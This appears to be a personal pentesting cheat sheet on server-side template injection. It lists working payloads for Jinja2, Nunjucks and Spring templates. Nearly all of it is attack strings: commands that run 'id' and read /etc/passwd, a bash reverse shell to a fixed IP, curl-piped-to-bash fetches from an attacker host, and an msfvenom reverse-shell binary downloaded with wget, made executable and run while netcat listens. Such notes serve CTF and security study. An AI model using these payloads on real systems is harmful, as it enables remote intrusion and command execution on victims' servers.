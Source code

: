 ## Definition
A __SSTI__ is an attack where the hacker is able to gain remote code execution in the victim's system just by using native template syntax to inject a malicious payload into a template, which is then executed server-side

## When to try this attack
Some occasions could be:
- When the server has [[Python in Servers]] installed
- When the webserver is [[Flask]]

## Ways to exploit different templates
Jinja2:
- Allows remote code execution: `{{ self._TemplateReference__context.cycler.\_\_init\_\_.\_\_globals\_\_.os.popen('id').read() }}`
- In order to send a reverse shell you can run: `{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('bash -c "bash -i >& /dev/tcp/10.10.16.9/443 0>&1"').read() }}`
Nunjucks (NodeJS):
- The way to exploit and get RCE is: `{{range.constructor("return global.process.mainModule.require('child_process').execSync('tail /etc/passwd')")()}}`
- For the reverse-shell is: `{{range.constructor("return global.process.mainModule.require('child_process').execSync('curl {YOUR-IP}:{PYTHON-PORT}/{REV-SHELL-FILE} | bash')")()}}` - Meanwhile, you've to be serving a basic reverse-shell bash TCP in your python server, this can be done running: python -m http.server 80 - in the folder that has the file
SpringFramework (Java):
- Way to exploit: `${T(java.lang.Runtime).getRuntime().exec('{BASH-COMMAND}')}` or `*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("{BASH-COMMAND}")}`
- For a reverse-shell: `*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("{BASH-COMMAND}")}` or, another useful way could be:
	- Create a reverse-shell with msfvenom `msfvenom -p linux/x64/shell_reverse_tcp LHOST={IP} LPORT=443 -f elf > r.elf`
	- Start a python http server with `python -m http.server 80`
	- Download the file via SSTI `*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("wget http://{IP}/r.elf")}`
	- Give the file execute permisson ``*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("chmod 777 ./r.elf")}``
	- Execute the file while listening in the port 443 ``*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("./r.elf")}`` meanwhile `nc -lvnp 443`
